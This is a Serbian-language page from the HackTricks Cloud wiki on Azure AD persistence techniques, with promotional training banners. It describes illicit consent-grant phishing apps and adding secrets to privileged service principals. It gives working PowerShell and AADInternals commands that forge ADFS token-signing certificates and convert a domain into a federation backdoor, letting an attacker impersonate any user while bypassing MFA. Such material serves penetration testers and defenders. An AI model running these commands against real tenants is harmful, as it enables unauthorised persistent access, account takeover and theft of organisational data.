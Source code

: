 # Az - Upornost

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS-a:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

### Neovlašćeno Dodeljivanje Saglasnosti

Podrazumevano, svaki korisnik može registrovati aplikaciju u Azure AD. Dakle, možete registrovati aplikaciju (samo za ciljani zakupac) koja zahteva visoke dozvole sa admin saglasnošću (odobrite je ako ste admin) - poput slanja mejla u ime korisnika, upravljanja ulogama itd. Ovo će nam omogućiti da **izvršimo phishing napade** koji bi bili veoma **plodni** u slučaju uspeha.

Osim toga, takođe možete prihvatiti tu aplikaciju sa svojim korisnikom kao način održavanja pristupa preko nje.

### Aplikacije i Servisni Principali

Sa privilegijama Administratora aplikacija, GA ili prilagođenom ulogom sa dozvolama microsoft.directory/applications/credentials/update, možemo dodati akreditive (tajnu ili sertifikat) postojećoj aplikaciji.

Moguće je **ciljati aplikaciju sa visokim dozvolama** ili **dodati novu aplikaciju** sa visokim dozvolama.

Interesantna uloga koju možemo dodati aplikaciji je **Uloga administratora privilegovane autentifikacije** jer omogućava **resetovanje lozinke** Globalnim administratorima.

Ova tehnika takođe omogućava da se **zaobiđe MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Za autentikaciju zasnovanu na sertifikatu

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federacija - Sertifikat za potpisivanje tokena

Sa **DA privilegijama** na lokalnom AD, moguće je kreirati i uvesti **nove sertifikate za potpisivanje tokena** i **sertifikate za dešifrovanje tokena** koji imaju veoma dug period važenja. Ovo će nam omogućiti da se **prijavimo kao bilo koji korisnik** čiji ImuutableID znamo.

**Pokrenite** sledeću komandu kao **DA na ADFS serverima** da biste kreirali nove sertifikate (podrazumevana lozinka 'AADInternals'), dodali ih u ADFS, onemogućili automatsko obnavljanje i restartovali servis:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Zatim ažurirajte informacije o sertifikatu sa Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federacija - Pouzdan domen

Sa GA privilegijama na zakupcu, moguće je **dodati novi domen** (mora biti proveren), konfigurisati njegov tip autentikacije na Federisani i konfigurisati domen da **poverava određeni sertifikat** (any.sts u naredbi ispod) i izdavaoca:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Reference

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS-a:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
